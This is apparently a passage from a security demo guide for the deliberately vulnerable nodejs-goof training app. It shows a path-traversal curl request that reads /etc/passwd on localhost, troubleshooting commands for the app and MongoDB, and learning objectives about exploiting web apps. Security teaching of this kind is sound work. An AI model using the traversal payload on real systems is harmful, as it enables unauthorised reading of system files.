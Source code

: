 ### Information Disclosure (Read /etc/passwd)
```bash
curl -s 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/etc/passwd' | head -10
```

---

## 🔧 Troubleshooting

### Application Not Responding
```bash
# Check if app is running
lsof -ti:3001

# Restart if needed
pkill -f "node app.js"
cd /Users/bigmac/Documents/workspace/agbonjaru/personal/projects/nodejs-goof
npm start &
```

### MongoDB Connection Issues
```bash
# Check MongoDB container
docker ps | grep mongo

# Restart if needed
docker stop goof-mongo
docker run -d -p 27017:27017 --name goof-mongo mongo:3
```

### Attack Script Not Executable
```bash
chmod +x /Users/bigmac/Documents/workspace/agbonjaru/personal/projects/nodejs-goof/attack-menu.sh
```

### ReDoS Attack Hangs Application
```bash
# This is expected! ReDoS causes CPU exhaustion
# Kill and restart:
pkill -f "node app.js"
npm start &
```

---

## 🎓 Learning Objectives

After this demo, audience will understand:

1. **Offensive Security**
   - How attackers exploit web applications
   - OWASP Top 10 vulnerabilities in practice
   - Chaining exploits for maximum impact
